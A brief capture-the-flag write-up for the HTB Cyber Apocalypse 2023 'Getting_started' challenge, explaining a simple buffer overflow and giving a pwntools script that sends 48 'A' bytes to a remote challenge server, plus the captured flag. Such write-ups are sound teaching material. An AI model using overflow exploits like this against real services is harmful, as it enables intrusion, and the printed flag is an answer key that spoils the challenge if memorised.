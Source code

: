 # Getting_started writeup - HTB Cyber Apocalypse 2023

## Description
Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

## Solution

The binary basically tells us it has a buffer overflow and we just need to overflow the 0xdeadbeef value to become anything else.

Sending 48 A's does the trick (but can be done in less).

All the information needed to figure this out is given by the binary itself when running it. No debugging or reversing required, just send a bunch of A's

```py
from pwn import *

io = remote("167.99.86.8",30042)

io.sendline(b'A'*48)

io.interactive()
```

## Flag
`HTB{b0f_s33m5_3z_r1ght?}`
